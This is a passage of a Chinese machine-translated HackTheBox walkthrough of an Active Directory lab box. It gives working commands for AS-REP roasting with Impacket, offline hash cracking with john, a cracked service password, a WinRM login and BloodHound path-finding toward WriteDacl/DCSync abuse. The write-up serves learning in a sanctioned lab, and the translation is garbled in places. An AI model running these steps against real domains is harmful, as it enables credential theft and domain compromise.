 由于`svc-alfresco`帐户是`Service Accounts`组的成员，我最初的想法是请求它的服务主体名称(SPN ),类似于[活动](https://medium.com/bugbountywriteup/active-a-kerberos-and-active-directory-hackthebox-walkthrough-fed9bf755d15)上的权限提升。但是，在整个域中没有找到 SPN。使用 Impacket 的`GetNPUsers.py`检查 kerberos 预认证是否被禁用，任何帐户都返回了一个[作为重新发布](http://www.exumbraops.com/blog/2016/6/1/kerberos-party-tricks-weaponizing-kerberos-protocol-flaws)响应，如下所示:

```
python3 GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/'
```

作为对 svc-alfresco 的重新发布响应

该响应可以加载到`john`或`hashcat`中，以便使用 rockyou 单词表离线破解:

```
john --format=krb5asrep \
-w=/usr/share/wordlists/rockyou.txt svc-alfresco.hash
```

离线密码破解

`svc-alfresco`账号的破解密码为“s3rvice”。通过 WINRM 的代码执行可以使用`evil-winrm`来获得`user.txt`标志:

```
evil-winrm --user svc-alfresco --password s3rvice --ip 10.10.10.161
```

使用 Evil-WinRM 访问 user.txt

# 权限提升

使用有效的域帐户，BloodHound 的 python 实现可以从本地 linux 主机上运行:

```
bloodhound-python --username svc-alfresco@HTB.LOCAL \
--password s3rvice \
--collectionmethod ALL \
--domain htb.local \
--nameserver 10.10.10.161
```

将输出的 json 文件上传到 BloodHound GUI，通过对`HTB.LOCAL`域的`WriteDacl`权限，显示了从`svc-alfresco`帐户到可到达的高价值目标的路径:

![](img/2c4d43e5413e018a0f8e670f63e3b855.png)

svc-alfresco 将 Write-Dacl 权限授予了 HTB。本地域

对 BloodHound 中这些关系的解释以及如何利用它们可以通过右键单击实体之间的连接线并选择“帮助”来访问。`WriteDacl`的滥用信息包括以下解释:

> 要滥用对域对象的 WriteDacl，您可以授予自己 DcSync 权限。
> 
> 您可能需要作为 EXCHANGE WINDOWS 权限@HTB 的成员向域控制器进行身份验证。如果您不是作为成员运行进程，则为本地。
